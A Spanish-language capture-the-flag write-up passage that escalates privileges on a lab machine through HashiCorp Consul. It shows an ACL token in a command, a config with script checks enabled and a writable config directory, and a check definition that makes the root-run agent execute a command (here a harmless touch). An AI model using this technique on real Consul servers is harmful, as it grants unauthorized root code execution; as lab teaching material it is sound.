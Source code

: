 podemos notar que consul tiene un subcomando exec. pero  cuando intento ejecutarlo, devuelve 0 nodos completados o reconocidos: 

- CONSUL_HTTP_TOKEN='bb03b43b-1d81-d62b-24b5-39540ee469b5' consul exec id

0 / 0 node(s) completed / acknowledged

revisaremos la configuracion de consul que la encontraré een /etc/consul.d: 

```
developer@ambassador:/etc/consul.d$ ls -l
total 16
drwx-wx--- 2 root   developer 4096 Sep 14 11:00 config.d
-rw-r--r-- 1 consul consul       0 Feb 28  2022 consul.env
-rw-r--r-- 1 consul consul    5303 Mar 14  2022 consul.hcl
-rw-r--r-- 1 consul consul     160 Mar 15  2022 README
```

Mirando la línea de comando para ejecutar consul. El proceso muestra que se está ejecutando con ambos. -config-dir y -config-file: 

- developer@ambassador:/etc/consul.d$ ps auxww | grep consul

root        1013  0.5  3.3 781092 66536 ?        Ssl  17:14   0:00 /usr/bin/consul agent -config-dir=/etc/consul.d/config.d -config-file=/etc/consul.d/consul.hcl

```
developer@ambassador:/etc/consul.d$ cat consul.hcl | grep -v "^#" | grep.

data_dir = "/opt/consul"
server = true
bind_addr = "127.0.0.1"
bootstrap_expect=1
acl {
  enabled        = true
  default_policy = "deny"
  down_policy    = "extend-cache"
}
enable_script_checks = true
```

este archivo tiene permiso para escribir en el desde developer 
podemos ver que en enable_script_checks y en https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations podemos leer sobre esto y como explotar
consul. https://www.consul.io/docs/discovery/checks aqui podemos ver sobre crear checkers con ejemplos.

en el "service definition file" ira al “agent’s configuration directory”, que es /etc/consul.d/config.d. quedaria

```
check = {
  id = "test"
  name = "test owned this"
  args = ["/usr/bin/touch", "/tmp/test-test"]
  interval = "10s"
  timeout = "1s"
}
```
